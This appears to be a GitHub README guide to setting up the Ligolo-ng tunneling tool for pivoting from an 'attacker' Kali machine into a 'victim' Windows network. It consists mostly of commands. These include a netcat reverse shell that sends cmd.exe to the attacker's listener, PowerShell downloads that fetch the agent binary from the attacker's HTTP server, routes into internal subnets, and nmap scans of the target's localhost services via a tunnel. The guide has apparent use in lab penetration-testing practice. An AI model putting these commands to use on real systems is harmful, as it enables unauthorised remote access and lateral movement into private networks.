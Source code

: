 
# Ligolo Setup Guide

## We  got    Agent  and proxy :--

1. Proxy  ⇒  Kali Linux  [ Local pc  ]
2. Agent  ⇒  Target  machines [  Victim ]


 ## Symbols & Notations
- **$** : Turbo User (Non-root user on attacker machine)
- **#** : Root User  (root user on attacker machine)
- **C:\>** : Target Machine (Windows)
- **@** : Reverse Shell of Windows in Attacker End
- **##** : Ligolo-Proxy-Server

## 1 - Place `nc` Binary on Target Machine

Using a Python HTTP server:

```
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Windows\ Binaries]
└─$ python -m http.server 80
```

Access the server from the target machine:

```
http://192.168.1.13
```

---

## 2 - Get a Reverse Shell

Start a listener on port 443:


```bash
$ nc -nlvp 443
```

On the target machine, run:

```powershell
C:\> nc64.exe 192.168.1.13 443 -e cmd.exe
```

After executing this, the reverse shell will be active on the attacker’s listener.

![image](https://github.com/user-attachments/assets/cd48e5b2-5321-46c6-901a-0440aa837b9b)


---

## 3 - Transfer Ligolo Agent to Target Machine

Start a Python HTTP server:

```bash
┌──(turbo㉿kali)-[/opt/Static\ Binaries/Ligolo_ng/win]
└─$ python -m http.server 80
```

On the reverse shell, download the agent:

```powershell
@ powershell Invoke-WebRequest "http://192.168.1.13/agent.exe" -OutFile "C:\Users\Public\agent.exe"
```

Alternative method:

```powershell
@ iwr -uri http://192.168.45.13/agent.exe -Outfile agent.exe
```

Or manually visit:

```
http://192.168.1.13
```

---

## 4 - Start Ligolo Proxy Server on Attacker Machine

Run the following as **root**:
Run on Attacker Box (Kali) with root User (192.168.1.13)

• Create the Ligolo tunnel interface on the attacker system
```
# ip tuntap add user turbo mode tun ligolo
```
![image](https://github.com/user-attachments/assets/b3b79fc3-9e1e-48d6-88c5-eb418294039c)

• Created Ligolo tunnel interface to active
```
# ip link set ligolo up
```
![image](https://github.com/user-attachments/assets/762332d3-7a3d-47bf-8d1e-991dd8c6fc23)

```
# cd /opt/Static\ Binaries/Ligolo_ng/win
```
```
# chmod +x proxy
```

Start the local proxy server:

```
# ./proxy -selfcert -laddr 0.0.0.0:80
```
Other Method
```
# ligolo-proxy -selfcert -laddr 0.0.0.0:80
```

---

## 5 - Start Ligolo Agent on Target Machine

### On Windows

```
@ agent.exe -connect 192.168.1.13:80 -ignore-cert
```

### On Linux

```
@ agent -connect 192.168.1.13:80 -ignore-cert
```

---

## 6 - Configure Network Routing on Attacker Machine

Check agent session:

```
## ligolo-ng » session
```


![image](https://github.com/user-attachments/assets/699f05da-9f93-496c-806e-ab5b21b56cf2)

```
## [Agent : root@webserver] » ifconfig
```
![image](https://github.com/user-attachments/assets/043d0a4f-f96e-4e72-8636-683fb3559ad5)


Add an internal network route:

```
# ip route add 192.168.2.0/24 dev ligolo
```

Verify routes:

```
# route -n
# ip route
```
![image](https://github.com/user-attachments/assets/c7320a87-f891-4583-897c-3ca4e99b7cc6)


Check active tunnels:

```
## [Agent : root@webserver] » tunnel_list
```
![image](https://github.com/user-attachments/assets/79c4ddc4-a94e-476e-bd21-42230fae5ce6)


---

## 7 - Visit Services from Attacker Machine

- **http://192.168.1.20** - Bind in port 80 Apache page
- **http://192.168.2.10** - Bind to site2

  ![image](https://github.com/user-attachments/assets/beec36e4-a763-4bba-bc47-c6ddc01b4430)

- **http://127.0.0.1** - Binnd to site1

---

## 8 - Access Agent’s Local Ports ( 127.0.0.1 )

Link :-  https://github.com/nicocha30/ligolo-ng/wiki/Localhost

 If you need to access the local ports of the currently connected agent, there's a
"magic" CIDR hardcoded in Ligolo-ng: 240.0.0.0/4
This is an unused IPv4 subnet. If you query an IP address on this subnet, Ligolo-
ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).
```
# ip route add 240.0.0.1/32 dev ligolo
```

```

# ip route
```
![image](https://github.com/user-attachments/assets/1af2c3e5-fc79-4ecf-abe2-e3c0e61b1e93)

Visit from the attacker machine:

```
http://240.0.0.1
```
![image](https://github.com/user-attachments/assets/b4199875-dd13-4a9a-abff-8947c5c237ec)

Scan the network:

```
# nmap -v -p- -sT 240.0.0.1
```
⇒ When  we Scan  inside the  Target Machine  withthe help of  this  ip  (240.0.0.1) Port no 80 Open 

![image](https://github.com/user-attachments/assets/4f41d77a-ad29-45b0-9a9b-2fae09d4ed21)

⇒ When we  Scan  Outside of the Target Machine  withthe help of ip ( 192.168.1.20 ) Port no 80 Open 

![image](https://github.com/user-attachments/assets/685f1b85-f957-4014-aaa9-d6352576b96c)
 
========================================================

## Firewall in windows :- 
 
 In inbound Rule Block port no 80  which is not listning in nmap output ----

 ![image](https://github.com/user-attachments/assets/60ed9d5e-682d-4dbc-ab94-0da41fda42d1)


⇒ Port no  80 Block  By Firewall  they can't show in nmap output :--
 
 ![image](https://github.com/user-attachments/assets/ce723713-010e-4f0f-a159-908844a8956a)

 
 ⇒ port no 80  is show  in  local host Binding   127.0.0.1  [  240.0.0.1 ]

 ![image](https://github.com/user-attachments/assets/8c99d7c9-dc63-4dd5-a14e-ab7dec0fe8c4)

 
 
 
 

 

